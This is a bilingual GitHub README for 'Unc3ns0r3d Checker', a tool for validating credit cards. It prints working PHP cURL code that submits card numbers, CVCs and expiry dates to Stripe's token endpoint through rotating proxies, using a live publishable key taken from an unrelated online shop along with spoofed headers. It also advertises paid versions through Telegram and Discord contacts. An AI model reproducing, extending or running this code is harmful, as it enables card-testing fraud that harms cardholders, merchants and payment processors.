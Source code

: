 <img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker v2">

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and other type of donations.


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```
###  SITES 🌐


- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php **Free**
- api_1.php **Free**
- api_p1.php **Pay** > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**
- api_p2.php **Pay** > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram
- SkarY#0554 - Discord

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```

###  SITIOS 🌐

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php **Gratuito**
- api_1.php **Gratuito**
- api_p1.php **Pago**  > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**
- api_p2.php **Pago**  > @MrPopos2 - **Telegram** - SkarY#0554 - **Discord**

### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018 / Editado 24/08/2019

### Contactame ✉
- @MrPopos2 - Telegram
- SkarY#0554 - Discord
